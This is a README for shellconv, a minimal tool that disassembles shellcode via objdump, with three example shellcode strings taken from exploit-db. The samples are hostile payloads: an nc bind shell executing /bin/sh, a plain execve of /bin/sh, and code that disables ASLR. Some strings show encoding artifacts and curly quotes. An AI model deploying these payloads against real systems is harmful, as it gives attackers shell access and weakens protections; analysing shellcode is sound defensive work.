

# shellconv
Small tool for disassembling shellcode (using objdump) 
<pre>
Use: ./shellconv.py [inFile] [arch:optional] [outFile:optional]
arch: defined as in objdump -m, default: i386
</pre>

<b>DISCLAIMER</b> 
This tool is intended to be minimalistic. 
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity. 
<i>If you still think, that I should develop this tool further, and make it a fully-fledged app, feel free to write me an e-mail :) [hasherezade-at-op.pl]</i>

examples:
-
1) https://www.exploit-db.com/exploits/36921/ 
expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>

  
2) https://www.exploit-db.com/exploits/36858/ 
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>

  
3) https://www.exploit-db.com/exploits/36637/ 
expdb3.shc :
<pre>
char shellcode[] = "\xeb\x22\x5b\x31\xc0\x88\x43\x23\x6a\x05\x58"
"\x6a\x02\x59\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x36\x59\x6a\x02\x5a”
“\xcd\x80\x6a\x01\x58\x31\xdb\xcd\x80\xe8\xd9\xff\xff\xff\x2f\x70”
“\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72”
“\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63”
“\x65\x58\xe8\xc5\xff\xff\xff\x30\x0a";
</pre>

